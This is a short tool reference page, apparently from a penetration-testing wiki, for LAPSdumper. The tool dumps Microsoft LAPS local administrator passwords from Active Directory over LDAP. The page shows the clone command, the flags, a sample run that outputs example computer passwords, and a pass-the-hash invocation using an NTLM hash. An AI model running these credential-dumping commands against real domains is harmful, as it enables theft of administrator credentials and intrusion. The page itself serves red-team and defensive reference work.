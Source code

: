```yaml
---
title : "LAPSdumper"
# pre : ' '
description : "Dump LAPS Passwords."
date : 2020-12-21T14:32:07+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'LDAP', 'Active Directory']
---
```


## LAPSdumper

Dump LAPS (Microsoft Local Administrator Password Solution) Passwords.

## Installation

```plain
git clone https://github.com/n00py/LAPSDumper
```

## Usage

```plain
laps.py [-h] -u USERNAME -p PASSWORD [-l LDAPSERVER] -d DOMAIN
```

## Flags

```plain
optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for LDAP
  -p PASSWORD, --password PASSWORD
                        password for LDAP (or LM:NT hash)
  -l LDAPSERVER, --ldapserver LDAPSERVER
                        LDAP server (or domain)
  -d DOMAIN, --domain DOMAIN
                        Domain
```

## Examples

```plain
$ python3 laps.py -u user -p password -d domain.local

COMPUTER01$:B#g4%aI$K!yZ)q}
COMPUTER02$:n-6pW-n8L!o8Of]
COMPUTER03$:u2Oc9z&{R)fHA2J
COMPUTER04$:Rwb2#4,{@N4Y19v
COMPUTER05$:17aZ,+1L5L((D0F
COMPUTER06$:DNX&@e.8XTQhyPj
COMPUTER07$:U3ZXf0vX!Xm1P89
COMPUTER08$:.6IvTd7-85ytJeF
COMPUTER09$:P2(VSN4%49!%fI8
```

### Pass-the-Hash specific LDAP server

```plain
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

## URL List

- [GitHub.com - LAPSDumper](https://github.com/n00py/LAPSDumper)
- [n00py.io - Dumping LAPS passwords from Linux](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/)
- [ADSecurity.org - Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)
- [ADSecurity.org - Microsoft LAPS Security & Active Directory LAPS Configuration Recon](https://adsecurity.org/?p=3164)
